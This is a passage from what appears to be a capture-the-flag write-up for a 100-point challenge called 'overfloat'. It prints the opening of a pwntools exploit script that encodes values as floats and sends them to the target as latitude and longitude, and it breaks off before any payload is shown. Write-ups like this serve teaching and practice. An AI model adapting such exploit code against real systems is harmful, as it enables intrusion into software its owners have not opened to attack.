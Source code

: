 ![./got_flag.png](./got_flag.png)

And that was 100 points for the team. There were about 180 solves for this challenge out of about 1900 teams, so it was not particularly difficult.

Here's the exploit code, cleaned up slightly compared to the screenshot of the flag:

```
# Exploit-overfloat.py

from pwn import *
from time import sleep
from binascii import hexlify

def hex_to_float_string(h):
    return str(struct.unpack('f',struct.pack('<I',h))[0])

def send_lat_long(input1, input2):
	input_lat = hex_to_float_string(input1)
	input_long = hex_to_float_string(input2)
	p.recvuntil(': ')
	p.send(input_lat + "\n")
	sleep(DELAY)
	p.recvuntil(': ')
	p.send(input_long + "\n")
	sleep(DELAY)

def rshift(val, n):
	if val > 0:
		return val >> n
```